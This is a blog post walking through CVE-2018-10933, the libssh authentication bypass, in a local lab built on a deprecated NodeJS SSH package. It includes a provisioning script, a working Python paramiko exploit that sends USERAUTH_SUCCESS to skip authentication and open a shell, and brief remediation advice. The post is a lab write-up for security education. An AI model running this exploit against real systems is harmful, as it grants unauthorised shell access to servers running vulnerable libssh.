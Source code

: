 +++ 
draft = false
date = 2018-10-22T18:28:33+01:00
title = "Exploiting a NodeJS SSH Server with CVE-2018-10933"
slug = "Exploit-CVE-2018-10933-NodeJS" 
tags = ["CVE-2018-10933","CVE2018-10933","NodeJS","Node"]
categories = ["CVE","Node","NodeJS",""]
thumbnail = "<no value>"
description = "Exploiting a NodeJS SSH server with CVE-2018-10933"
+++

In the recent week <b>CVE-2018-10933</b> created a great deal of excitement online.  This a vulnerability in <b>'libssh'</b> before versions <b>0.7.6</b> and <b>0.8.4</b> which allows an attacker to circumvent SSH authentication. The public advisory issued by 'libssh' can be found [here](https://www.libssh.org/2018/10/16/libssh-0-8-4-and-0-7-6-security-and-bugfix-release/)

The full range of vulnerable products using libssh was still unclear when writing, however as a proof of concept the vulnerable and deprecated [NodeJS SSH server](https://www.npmjs.com/package/ssh) will be used in this blog. 

The Vulnerability
----
<b>Vulnerable Software:</b> libssh <0.7.6 and libssh <0.8.4

The vulnerability is quite simple conceptually. A server using the above versions of 'libssh' expect a <b>'SSH2_MSG_USERAUTH_REQUEST'</b> message during authentication. 

This bug occurs when we supply a message of <b>'SSH2_MSG_USERAUTH_SUCCESS'</b> in place of the above, after which the server will grant us access without requiring any credentials.

![xkcd](images/sandwich.jpg)

Surprisingly, no one has dubbed this issue 'Open Sesame'.



Lab Setup
----

[npm](https://docs.npmjs.com/getting-started/what-is-npm), the package manager for NodeJS is kind enough of containing a vulnerable SSH library which uses the affected libraries.  This Lab will be setup in a [scotch-box](https://github.com/scotch-io/scotch-box) vagrant image.

This package can be installed by using a provisioning script such as the following (this should also work on any Debian base with Node+npm installed):

```shell
#!/bin/bash

echo 'Installing n'
npm cache clean -f
npm install -g n

echo 'Installing Node 0.12.18'
n 0.12.18

echo 'Installing node-libssh'
npm i ssh

#Make our dummy code listen on all interfaces
sed -i.bak 's/127.0.0.1/0.0.0.0/g' /home/vagrant/node_modules/ssh/examples/ stdiopipe.js 
```


As part of our new install we already have a dummy SSH server we can execute. 

The 'stdiopipe.js' file contains a sample NodeJS SSH server, which will reply with a banner on succesfull authentication and spawning of a shell.  Here we can see how to run the server:

![libssh server](images/libsshd.png)

A succesful banner after authenticating with the appropriate credentials:

![nodejs ssh banner](images/ssh_banner.png)

A permission denied message if we fail to authenticate:

![access denied](images/ssh_banner_unauth.png)

That is all we need for our lab setup.

The Exploit
----
To exploit this issue we will perform the following actions using the 'paramiko' python library:

1. Connect to the server (in this case 192.168.33.10 on port 3333)
2. Send the 'SSH2_MSG_USERAUTH_SUCCESS' message to bypass authentication
3. Invoke a shell in the established SSH channel
4. Receive the banner sent when successfully authenticated with a shell to prove access.

```python
#!/usr/bin/env python

import socket
import paramiko
from paramiko import *

hostname="192.168.33.10"
port="3333"

try:
    sock = socket.create_connection((hostname, port))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)

    print "Attempting to start SSH client."
    transport.start_client()

    print "Sending USERAUTH_SUCCESS message."
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)

    print "Attempting to open an SSH session."
    channel = transport.open_session()

    print "Attempting to invoke a shell."
    channel.invoke_shell()

    print "Retrieving banner from successful shell invocation"
    print "Banner: ", channel.recv(100)
except Exception as e:
    print('SSH Exception: {}'.format(e))
    exit(1)
```

We will successfully achieve the authentication bypass and retrieve the banner, as shown below:

![libssh exploit](images/libsshd_exploit.png)

Remediation
----
'libssh' is a vulnerable component, rather than a vulnerable standalone piece of software in itself.  As such, identification of software using vulnerable versions of 'libssh' should be prioritised and updated to the fixed versions.

I've never come across someone who required NodeJS to deploy an SSH server, however if you are one of ***those people*** downloading and using the deprecated npm 'ssh' library, you should migrate to an up to date and supported package which will provide greater confidence in the authentication supplied.

